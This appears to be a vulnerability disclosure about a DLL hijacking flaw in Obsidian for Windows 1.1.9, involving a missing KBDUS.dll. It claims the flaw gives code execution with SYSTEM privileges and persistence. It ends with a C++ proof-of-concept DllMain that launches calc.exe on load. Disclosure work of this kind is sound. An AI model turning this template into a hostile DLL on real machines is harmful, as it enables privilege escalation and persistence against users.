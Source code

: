 ## The name of an affected Product : obsidian for windows

## Affected Version : Version 1.1.9(Latest)

## Product Address: https://obsidian.md/

## Description : KBDUS.dll is missing so an attacker can use a malicious dll with same name and can get a admin privileges and also perform a way of persistence on the victim machine.

## Impact : An attacker could exploit this vulnerability by placing a malicious DLL file on the targeted system. This file will execute when the vulnerable application launches. A successful exploit could allow the attacker to execute arbitrary code on the targeted system with SYSTEM PRIVILEGES as well the attacker can maintain persistence on the target system.

Poc code:
```C++
// dllmain.cpp
#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("calc.exe");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```